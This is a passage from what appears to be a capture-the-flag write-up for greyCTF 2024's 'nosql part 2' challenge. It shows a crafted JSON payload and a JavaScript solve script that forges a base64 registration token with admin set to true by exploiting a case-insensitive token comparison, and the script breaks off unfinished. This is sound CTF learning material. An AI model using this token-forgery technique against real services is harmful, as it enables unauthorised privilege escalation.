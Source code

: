 ![](../../static/greyCTF2024/nosql_part2.png)

Yielding us:
{% ccb terminal:true lang:json %}
{"name":"?","admin":true,"\x8Aadmin":false}
{% endccb %}

## Script

So now all that's left is to put a script together to solve the challenge:

```js
const username = 'xyz?(¬ Ádmin\x8A:true,'
const json2 = '{"name":"xyz?","admin":true,",\x8Aadmin":false}'
const password = 'rwandi'

async function main(){
    let response1 = await fetch("http://challs.nusgreyhats.org:33336/api/register/1", {
        "headers": { "content-type": "application/x-www-form-urlencoded" },
        "body": `username=${btoa(username)}`,
        "method": "POST"
    });
    let json = await response1.json()

    const token1 = btoa(JSON.stringify({
        name: username,
        admin: false
    }));
    
    const token2 = btoa(json2)
    
    if (token1.toLowerCase() != token2.toLowerCase()) console.error("uh oh")

    const { name, admin } = JSON.parse(atob(token2));
    if (!admin) console.err('uh oh')

    let response2 = await fetch("http://challs.nusgreyhats.org:33336/api/register/2", {
        "headers": { "content-type": "application/x-www-form-urlencoded" },
        "body": `password=${btoa(password)}&token=${btoa(token2)}`,
        "method": "POST"
    });
    json = await response2.json()
    console.log(json)

    if (json.err) return console.error('register/2 failed')

```